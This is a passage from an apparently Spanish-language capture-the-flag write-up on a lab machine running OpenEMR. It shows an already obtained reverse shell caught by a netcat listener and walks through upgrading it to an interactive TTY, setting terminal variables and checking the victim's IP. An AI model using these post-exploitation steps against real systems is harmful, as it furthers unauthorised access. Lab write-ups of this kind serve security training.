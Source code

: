A continuacion realizo un tratamiento de la tty.

Con el comando **script /dev/null -c bash** me creo tty

Presionando **Ctrl+z** para dejar la consola remota en segundo plano, ejecutando en mi maquina **ssty raw -echo;fg** y **reset xterm** recupero la consola remota y puedo presionar **Ctrl+c** para parar procesos sin finalizar la consola remota. 

```bash
www-data@buffemr:/var/www/html/openemr/interface/main$ tty
tty
not a tty
www-data@buffemr:/var/www/html/openemr/interface/main$ script /dev/null -c bash
<ml/openemr/interface/main$ script /dev/null -c bash   
Script started, file is /dev/null
www-data@buffemr:/var/www/html/openemr/interface/main$ tty
tty
/dev/pts/0
www-data@buffemr:/var/www/html/openemr/interface/main$ ^Z
zsh: suspended  nc -lnvp 1337
$ stty raw -echo;fg
[1]  + continued  nc -lnvp 1337
                               reset xterm
```

Establezco algunas variables de entorno.

Actualizo TERM a xterm para poder limpiar la consola presionando **Ctrl+l** y moverme mas comodamente

```bash
www-data@buffemr:/var/www/html/openemr/interface/main$ export TERM=xterm-256color
www-data@buffemr:/var/www/html/openemr/interface/main$ export HOME=/etc/skel
www-data@buffemr:/var/www/html/openemr/interface/main$ bash
www-data@buffemr:/var/www/html/openemr/interface/main$ stty rows 42 columns 167
www-data@buffemr:/var/www/html/openemr/interface/main$ cd /
```

### Me encuentro en el objetivo

Con el comando ifconfig reviso que la ip privada de la maquina coincida con la ip de la maquina victima.

```bash
www-data@buffemr:/$ ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.0.219  netmask 255.255.255.0  broadcast 192.168.0.255
        inet6 fe80::299c:74ee:e6cb:ff62  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:f7:2c:d1  txqueuelen 1000  (Ethernet)
        RX packets 605360  bytes 572681081 (572.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 392531  bytes 150109598 (150.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 553  bytes 56583 (56.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 553  bytes 56583 (56.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
